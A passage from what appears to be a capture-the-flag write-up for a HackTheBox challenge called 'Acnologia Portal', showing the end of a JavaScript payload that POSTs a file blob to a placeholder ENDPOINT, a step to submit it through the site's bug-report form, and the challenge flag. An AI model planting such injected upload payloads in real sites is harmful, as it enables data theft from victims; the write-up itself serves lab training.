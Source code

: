 ```html
    
    /// Uploading ////////////////////////////////////////////
    var formData = new FormData();
    formData.append("file", blob, FILENAME);
    var request = new XMLHttpRequest();
    request.open("POST", ENDPOINT);
    request.send(formData);
    
}
sendFile()
</script>

[hacker@hackerbook Acnologia Portal]$ 
```

Create an account, and submit the payload through the bug reporting system.

![](Pasted%20image%2020220515205326.png)

![](Pasted%20image%2020220515205053.png)

## Flag
`HTB{des3r1aliz3_4ll_th3_th1ngs}`
